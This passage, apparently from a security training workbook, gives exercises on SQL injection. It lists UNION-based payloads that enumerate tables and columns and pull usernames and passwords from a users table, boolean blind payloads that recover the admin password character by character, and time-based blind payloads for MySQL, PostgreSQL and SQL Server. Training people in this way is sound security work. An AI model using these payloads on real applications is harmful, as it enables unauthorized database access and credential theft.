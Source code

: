 ### Exercise 3.1: Union-Based Injection
Extract data using UNION:
```sql
-- Find number of columns
' ORDER BY 1 --
' ORDER BY 2 --
' ORDER BY 3 --

-- Union select
' UNION SELECT null, null, null --
' UNION SELECT 1, 2, 3 --

-- Extract database information
' UNION SELECT 1, database(), 3 --
' UNION SELECT 1, version(), 3 --
' UNION SELECT 1, user(), 3 --

-- Extract table names
' UNION SELECT 1, table_name, 3 FROM information_schema.tables WHERE table_schema=database() --

-- Extract column names
' UNION SELECT 1, column_name, 3 FROM information_schema.columns WHERE table_name='users' --

-- Extract data
' UNION SELECT 1, username, password FROM users --
```

### Exercise 3.2: Blind SQL Injection
Boolean-based blind injection:
```sql
-- Test for true/false conditions
' AND 1=1 --  (page loads normally)
' AND 1=2 --  (page loads differently)

-- Extract data character by character
' AND SUBSTRING(database(),1,1)='a' --
' AND SUBSTRING(database(),1,1)='b' --
' AND ASCII(SUBSTRING(database(),1,1))>97 --

-- Automated extraction script
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a' --
```

### Exercise 3.3: Time-Based Blind Injection
When no visible output changes:
```sql
-- MySQL
' AND IF(1=1, SLEEP(5), 0) --
' AND IF((SELECT COUNT(*) FROM users)>0, SLEEP(5), 0) --

-- PostgreSQL
'; SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END --

-- SQL Server
'; IF (1=1) WAITFOR DELAY '00:00:05' --
```
